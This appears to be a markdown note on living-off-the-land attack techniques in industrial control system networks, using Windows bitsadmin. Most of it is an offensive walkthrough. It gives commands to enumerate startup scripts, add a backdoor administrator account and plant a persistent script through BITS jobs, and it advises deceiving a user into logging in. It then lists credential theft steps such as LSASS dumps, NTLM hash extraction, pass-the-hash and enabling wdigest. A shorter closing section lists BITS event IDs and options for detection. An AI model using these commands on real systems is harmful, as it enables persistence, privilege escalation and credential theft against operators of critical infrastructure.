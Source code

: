 
## Some tricks and living off the land techniques in ICS
BITS Admin is a command and control tool to manage the BITS (Background Intelligent Transfer Service) service.
This tool can be used to create, download, or upload jobs and to mintor their progress.

Binary locations:
`C:\Windows\System32\bitsadmin.exe`
`C:\Windows\SysWoW64\bitsadmin.exe`

This can be interacted via PowerShell cmdlets.

### Technique 1
-Looking for startup script: `Get-item -path HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run`
-Looking at the content of files: `type $filepath`
-check permissions to see who can edit: `icacls $filepath`
-Account enumeration: `net user operator`

Well, let's append the file that starts up with below lines to add our own user to the machine:
 -Add a user: `net user /add mattdamon damon2021!`
 -Add the user to the localgroup admin: `net localgroup administrators mattdamon /add`

Now we can create jobs via BitsAdmin, add our own version of script instead or along the same startup script. So it always startup at the run time.
`bitsadmin.exe /create $jobname`
`bitsadmin.exe /addfile $jobsname C:\users\operator\desktop\$jobsfilename.bat C:\scripts\$jobscript.bat`
`bitsadmin.exe /resume $jobname`
`bitsadmin.exe /complete $jobname`
-make sure no other jobs are on queue:`bitsadmin.exe /reset`
double check the jobs file content: `type C:\scripts\$jobscript.bat`
Then at this point, you can ask the client/user to loginto machine and giving them some excuse that maybe we don't have access and just double check. When they login, our scripts will run and voilla, we can check with `whoami` or `net localgroup administrators` and see our **mattdamon** user is part of admin group.

So, now what we can do:
-We can enable the USB and port restrictions (if they are applied through GPOs)
-Interact with the LSAS and .exe process and create memory dumpt of it
-Extracting memory offline and dump NTLM hashes and maybe a **domain account** for lateral movement and harvesting for pass the hash activities
-We can extract SAMS HKey Local hives via impackets
-We can enable wdigest on the machine and reboot it and try capture credentials in clear text for next logon attempts

### Other Techniques
Other methods can be done such as:
1 - Downloading files from the internet or our machines and executing them.
2 - Replacing an existing legitimate DLL file with malicous one for future use with other living off the land biary,
3 - Replace rundll32.exe with a malicous file to call back to our C2
4 - Create one-liners to run a command or a sequence of them.

### Preventions:

1- Event IDs for Windows:
Event IDs 3 - BITS Service Created a new jobs
Event IDs 4 - The Trasnfer job is complete
Event IDs 5 - The job is cancelled
Event IDs 59 - BITS started the transfer job
Event IDs 60 - BITS stopped transferring the job
Event IDs 59/60 can also contain the download and/or upload URL that can be useful

2- Leveraging syslog, sysmon pay attention to the command options:
  -Transfer
  - Create
  - AddFile
  - SetNotifyFlags
  - SetNotidyCmdLine
  - SetMinRetryDelay
  - SetCustomHeaders
  - Resume
  Depending on the method the BITSAdmin was leveraged, powershell logs and admin logs could also be useful.
